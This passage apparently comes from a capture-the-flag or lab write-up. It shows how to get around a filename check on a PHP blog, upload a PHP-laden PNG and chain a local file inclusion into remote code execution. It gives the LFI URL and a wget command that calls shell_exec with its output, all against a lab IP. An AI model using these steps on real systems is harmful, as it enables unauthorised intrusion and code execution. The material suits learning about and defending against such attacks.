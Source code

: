 In the line 9, i can see  it ask the file to containt "blog_" and "html". This function is not a problem, beacause i can bypass it by naming my malicious png "blog_html.png".

Finally at the line 18, we can see if it success, the file will be in the same directory of "blog.html". So we dont need to use the string `../` beacause we only need to reach "uploads/blog_html.png"

So the LFI syntax will be:

```
http://172.30.0.2/blog.php?article=uploads/blog_html.png
```

## Exploitation<a name="Exploitation"></a>

First i took the PoC png downloaded [here](https://www.idontplaydarts.com/images/phppng.png). And renamed it "blog_html.png".

```
kali@kali:~/Pictures$ mv phppng.png blog_html.png
```

Then i upload it through the "/admin/upload.php" page.

> ![](https://i.imgur.com/WAVxxqk.png)

And i press on the "Upload Image" button.

> ![](https://i.imgur.com/KKsVGRS.png)

The malicious PNG file has been uploaded with success. Now i verify if the LFI work.

> ![](https://i.imgur.com/4svsyPH.png)

It work! I can now exploit the LFI to do some remote code execution and get a shell.

### LFI to RCE<a name="LFI2RCE"></a>

Now i use wget to exploit the LFI, to execute the php code inside the PNG file, and make some code execution.

In first i test it by running "ls".

```
kali@kali:~$ wget "http://172.30.0.2/blog.php?article=uploads/blog_html.png&0=shell_exec" --post-data="1=ls"
--2020-05-11 18:01:28--  http://172.30.0.2/blog.php?article=uploads/blog_html.png&0=shell_exec
Connecting to 172.30.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 398 [text/html]
Saving to: ‘blog.php?article=uploads%2Fblog_html.png&0=shell_exec’

blog.php?article=uploads%2Fblog_html.png&0=shell_exe 100%[====================================================================================================================>]     398  --.-KB/s    in 0s      

2020-05-11 18:01:28 (37.9 MB/s) - ‘blog.php?article=uploads%2Fblog_html.png&0=shell_exec’ saved [398/398]
```
It saved the request inside a file. Reading it and we can see the list of files.
